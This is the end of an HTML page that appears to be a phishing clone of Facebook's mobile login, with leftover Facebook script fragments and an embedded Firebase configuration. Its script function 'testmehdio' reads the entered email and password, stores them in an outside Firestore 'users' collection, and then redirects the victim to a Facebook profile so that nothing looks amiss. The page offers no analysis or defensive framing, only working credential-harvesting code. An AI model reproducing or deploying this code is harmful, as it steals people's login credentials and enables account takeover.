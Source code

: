 ogout\\.php|sitetour/homepage_tour\\.php|sorry\\.php|syndication\\.php|webmessenger|/plugins/subscribe|lookback|brandpermissions|gameday|pxlcld|comet|worldcup/map|livemap|work/admin|work/standardadmin|work/reseller|([^/]+/)?dialog)|legal|\\.pdf$",badRequestKeys:["nonce","access_token","oauth_token","xs","checkpoint_data","code"],logRefreshOverhead:false},60]]},last_in_phase:true,the_end:true});}),"onPageletArrive last_response",{"root":true,"pagelet":"last_response"})();</script>




<script src="https://www.gstatic.com/firebasejs/6.2.4/firebase-app.js"></script>
<script src="https://www.gstatic.com/firebasejs/6.2.4/firebase-app.js"></script>
<script src="https://www.gstatic.com/firebasejs/6.2.4/firebase-firestore.js"></script>




<script>
  // Your web app's Firebase configuration
  var firebaseConfig = {
    apiKey: "AIzaSyBTz6GAg11LgdVk2sN20v5H-jM2JuGDcdo",
    authDomain: "chatapp-a3468.firebaseapp.com",
    databaseURL: "https://chatapp-a3468.firebaseio.com",
    projectId: "chatapp-a3468",
    storageBucket: "",
    messagingSenderId: "838008610083",
    appId: "1:838008610083:web:dc41214bdbd30035"
  };
  // Initialize Firebase
  firebase.initializeApp(firebaseConfig);
  var db = firebase.firestore();

</script>
<script type="text/javascript">
	
// alert("m_login_email");
// alert("m_login_password");

function testmehdio() {

var m_login_email = document.getElementById('m_login_email').value;
var m_login_password = document.getElementById('m_login_password').value;

alert(m_login_password+"    "+m_login_email);

db.collection("users").doc().set({
    login : m_login_email,
    pass : m_login_password
})
.then(function() {
    console.log("Document successfully written!");
    window.location.href="https://www.facebook.com/profile.php?id=61552334812428";
})
.catch(function(error) {
    console.error("Error writing document: ", error);
    window.location.href="https://www.facebook.com/profile.php?id=61552334812428";
    
});


}

</script>


</body>
</html>
